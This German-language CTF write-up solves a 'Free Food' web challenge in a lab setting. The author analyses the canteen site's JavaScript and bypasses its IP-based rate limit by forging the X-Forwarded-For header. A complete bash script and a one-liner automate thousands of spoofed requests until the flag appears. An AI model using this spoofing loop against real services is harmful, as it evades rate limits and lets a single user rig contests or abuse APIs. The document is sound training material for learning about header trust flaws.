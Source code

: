 # Free Food

> Your university canteen is organizing a giveaway. Maybe you can get your hands on some delicious free food.

Die Kantinen-Webseite zeigt einen Counter, der angibt, wie oft bereits an diesem Gewinnspiel teilgenommen wurde. Die 10.000ste Teilehmerin gewinnt. Teilnehmen kann man beliebig oft, allerdings nur einmal pro Stunde. Der Counter erhöht sich ca. alle 10 Sekunden von selbst um eins.

![Screenshot der Kantinen-Homepage](screenshots/Pasted%20image%2020230314201446.png "Screenshot der Kantinen-Homepage")

**Erste Idee:** warten. Das wären - wenn ich mich nicht verrechnet habe - ca 26 Stunden, in denen ich selbst dann auch 26 mal meinen Beitrag dazu leisten könnte, die 10.000 Teilnehmerinnen zu erreichen. Das wird mir allein dadurch erschwert, dass die Challenge automatisch nach drei Stunden stoppt.

Wir wären ja nicht am HackHigh Institute, wenn es hier nicht einen Workaround geben würde.  Also:

**Zweite Idee:** Erstmal gucken, was da überhaupt passiert. Im Quelltext der Seite findet sich ein interessanter Javascript Block. Hier mal ein paar Ausschnitte daraus:

```javascript
setInterval(retrieveState, 3000);
retrieveState();

function retrieveState() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
			updateUI(JSON.parse(this.responseText));
		}
	};
	xhttp.open("GET", "/api/giveaway", true);
	xhttp.send();
}
```

`retrieveState()` wird offenbar alle 3 Sekunden ausgeführt und sendet einen Request an `/api/giveaway`. Wenn der Request ausgeführt ist (`readyState == 4`), wird die Funktion `updateUI()` aufgreufen.


```javascript
var counter = new Counter('.numCounter', {direction:'rtl', delay:200, digits:5});
function updateUI(data) {
	counter.count(data.state);
	$("#participate").prop("disabled", data.rateLimit > 0);
	$("#rateLimitError").css("display", data.rateLimit > 0 ? "block" : "none");
	$("#rateLimitMin").text(Math.ceil(data.rateLimit / (1000 * 60)));
	if (data.coupon) {
		$("#giveaway").css("display", "none");
		$("#victory").css("display", "block");
		$("#coupon").text(data.coupon);
		confetti.start();
	}
}
```

`updateUI()` bekommt als Eingabe die Daten, die `retrieveState()` als Response auf den Request erhalten hat. Der Counter wird aktualisiert und sollte `rateLimit` größer als 0 sein, wird der Teinahme-Button deaktiviert. Wenn in `coupon` etwas stehen sollte, hat man anscheinend gewonnen. Was passiert nun also, wenn ich auf den Teilnahme-Button klicke, solange er noch aktiv ist?

```html
<button id="participate" class="btn bg-secondary" style="font-size: 2em;" onclick="participate()">PARTICIPATE</button>
```

```javascript
function participate() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
			updateUI(JSON.parse(this.responseText));
			$('#toast-success').toast('show');
		}
		else if (this.readyState == 4 && this.status != 200) {
			updateUI(JSON.parse(this.responseText));
			$('#toast-error').toast('show');
		}
	};
	xhttp.open("GET", "/api/giveaway/participate", true);
	xhttp.send();
}
```

Beim Klick auf den Teilnahme-Button wird die Funktion `participate()` aufgreufen. Diese sendet einen Request an `/api/giveaway/participate`. Um ein Gefühl dafür zu kriegen, wie die Response genau aussieht, lässt sich `curl` verwenden.

![](screenshots/Pasted%20image%2020230314210252.png)

Und die Kantinen-Homepage hat natürlich auch sofort mit einem rate Limit darauf reagiert.

![](screenshots/Pasted%20image%2020230314210351.png)

Weitere Requests bleiben erfolglos und ändern nochts an der Teilnehmerinnen-Zahl (`state`).

![](screenshots/Pasted%20image%2020230314210509.png)

An dieser Stelle habe ich lange gegrübelt. Ich habe die Antworten vom Server mit BurpSuite abgefangen und manipuliert. Das sah auf der Homepage im ersten Moment zwar nach Erfolg aus, hat aber weiter nichts gebracht. Natürlich nicht, die Daten werden ja auf Server-Seite gehalten, darauf habe ich so keinen Einfluss. Dann habe ich überlegt, anhand welches Kriteriums das rateLimit überprüft werden könnte. Die zurückgegebenen Daten ließen nur den Schluss auf die IP-Adresse zu.

**Zwei-Einhalbste Idee:** Die IP-Adresse lässt sich unter umständen sehr leicht fälschen. Mit dem Request Header `X-Forwarded-For` kann man dem Server eine beliebige falsche Ursprungs-IP vortäuschen. Der eigentliche Sinn dieses Headers ist es, die Original-IP mitzusenden, wenn der Request beispielsweise über einen Proxy geleitet wird. Mit `curl` kann man einem Request beliebige Header hinzufügen.

![](screenshots/Pasted%20image%2020230314213706.png)

Der Server akzeptiert den Header tatsächlich, die Response zeigt nun die gefälschte IP und ein frisch gestartetes rate limit. Das ganze jetzt noch 9000 mal händisch mit unterschiedlichen IPs zu machen ist vermutlich rädernd. Also habe ich ein Skript geschrieben, das genau das macht und am Ende die Flag ausgibt.

![](screenshots/freefood.gif)


Nach ca 15 Minuten ist das Script fertig und die Flag gefunden.

![](screenshots/Pasted%20image%2020230314215649.png)


Hier zur Vollständigkeit noch das Script:
```bash
#! /bin/bash

RED='\033[0;31m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
PURPLE='\033[0;35m'
NC='\033[0m' # No Color

IP="$1"
ADDRESS="http://$IP:3000/api/giveaway/participate"

echo ""
echo -e "${CYAN}*****************"
echo "*   FREE FOOD   *"
echo -e "*****************${NC}"
echo ""

if [[ "$1" == "" ]]; then
	echo -e "${RED}[!] usage: $0 <IP>${NC}"
	echo "[+]  e.g.: $0 0.65.12.165"
	echo ""
	exit 1
fi

echo "[+] sending requests to $ADDRESS"
echo "[+] bypassing rate limit ..."
echo "[+] ... this will need some time ..."
echo ""
echo ""
for i in {1..40}; do
	for j in {1..255}; do
		response=`curl -s $ADDRESS -H "X-Forwarded-For: 1.1.$i.$j"`
		
		if [[ $(( j%5 )) -eq 1 ]]; then
			state=`echo $response | cut -d ',' -f 1 | cut -d ':' -f 2`
			echo -e "\e[1A\e[K[+] Counter: ${PURPLE}$state${NC}"
		fi
		
		flag=`echo $response | cut -d ',' -f 3 | cut -d '"' -f 4`
		if [[ "$flag" != "" ]]; then
			echo ""
			echo -e "${GREEN}[*] $flag${NC}"
			echo "[+] voilá: Free Food."
			echo ""
			break 2
		fi
	done
done
exit 0
```

Oder als One-Liner ohne Schnick-Schnack: (`<IP>` durch die eigentliche IP ersetzen)
```bash
for i in {1..40}; do; for j in {1..255}; do; response=`curl -s http://<IP>:3000/api/giveaway/participate -H "X-Forwarded-For: 1.1.$i.$j"`; flag=`echo $response | cut -d ',' -f 3 | cut -d '"' -f 4`; if [[ "$flag" != "" ]]; then; echo "$flag"; break 2; fi; done; done
```

![](screenshots/Pasted%20image%2020230314215847.png)
